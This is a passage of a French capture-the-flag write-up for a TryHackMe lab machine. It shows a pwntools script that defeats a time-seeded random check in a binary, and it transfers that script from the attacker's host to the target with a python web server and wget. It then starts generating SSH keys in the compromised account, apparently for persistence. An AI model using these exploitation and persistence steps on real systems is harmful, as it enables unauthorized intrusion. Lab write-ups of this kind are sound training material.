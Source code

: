 On décompile le programme.  
On voit le programme génère un nombre aléatoire puit le compare avec la saisie utilisateur.  
La graine pour génèrer le nombre aléatoire est le nombre de secondes, si on répéte le code en mois d'un seconde on aura toujours le même nombre.  

Si on trouve le bon nombre le programme exécute uname -p.   

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat 2time.py 
#!/usr/bin/env python3

from pwn import *
context.log_level = 'error'

# First pass to get the number
p = process('/srv/time-turner/swagger')
p.sendline('1337');
p.readline()                  # Nope message
response = p.readline()       # Thinking message
answer = response.decode().split(' ')[-1].strip()
p.close()

# Second pass to get to impressive
p = process('/srv/time-turner/swagger')
p.sendline(answer)
print(p.readline())
print(p.readline())
p.close()
```
```bash
tim@kali:~/Bureau/tryhackme/write-up$ python -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

hermonine@hogwartz-castle:/home/hermonine$  wget http://10.9.228.66:8000/2time.py -nv
2021-10-05 07:56:05 URL:http://10.9.228.66:8000/2time.py [461/461] -> "2time.py" [1]

```

On créer un script qui va exécuter le programme 2 fois en moins de 1 seconde. 
Il récupère la réponse de la première tentative et l'envoie sur la seconde tentative.   
On transfert le fichier.  

```bash
hermonine@hogwartz-castle:/home/hermonine$ python3 2time.py
b'Guess my number: Nice use of the time-turner!\n'hermonine@hogwartz-castle:/home/hermonine$ 
```

Le programme fonctionne mais mon shell n'est pas bien stabilisé.  

```bash
hermonine@hogwartz-castle:/home/hermonine$ cd .ssh/
hermonine@hogwartz-castle:/home/hermonine$ cd .ssh/
hermonine@hogwartz-castle:/home/hermonine/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/hermonine/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/hermonine/.ssh/id_rsa.
Your public key has been saved in /home/hermonine/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:NLMsXugPaFNATGzV0KrtwsWW8zn2wnNbV9L2HpUiAF0 hermonine@hogwartz-castle
The key's randomart image is:
+---[RSA 2048]----+
|   +o.o=. .E     |
|   .+   +.       |
|   ..  .+.       |
|     ..+ +.    ..|
|     ++.S  . ...=|
```